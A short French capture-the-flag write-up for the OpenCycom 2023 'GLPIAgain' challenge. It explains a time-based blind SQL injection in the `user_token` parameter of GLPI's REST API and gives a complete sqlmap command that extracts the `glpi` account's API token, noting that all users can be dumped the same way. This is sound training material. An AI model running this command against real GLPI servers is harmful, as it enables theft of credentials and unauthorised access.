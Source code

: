 ```yaml
---
title: "GLPI Again"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```



# OpenCycom 2023 - GLPIAgain - *200 pts*

## Challenge

La cible dispose d'une plateforme GLPI exposée sur internet. GLPI comprend une importante dette technique et a souvent été impacté par de nombreuses vulnérabilités. Ici l'énoncé indiquait que l'objectif était de récupérer la clef API du compte `glpi`, comment l'obtenir sans identifiants, en blackbox ?

*Ce challenge a été résolu par 12,5% des équipes.*

## Vulnérabilités

Une vulnérabilité relativement récente est présente sur la plateforme si l'API est activée et exposée. D'où l'indice que l'objectif est de récupérer la clef API.
Une injection SQL aveugle basée sur le timing est présente sur le paramètre `user_token`.

## Exploit

L'exploitation peut être entièrement automatisée par SQLmap :
```bash
sqlmap --dbms=mysql --technique=T --ignore-code=401  -u 'https://glpi/apirest.php/initSession?user_token=xxxxxx' -p user_token --sql-query='select api_token from glpi_users where id=2;'
```
Ici une requête SQL est directement passée, mais obtenir petit à petit la liste des tous les utilisateurs est également possible, en utilisant les différentes options, `--dump`, `--tables` etc.

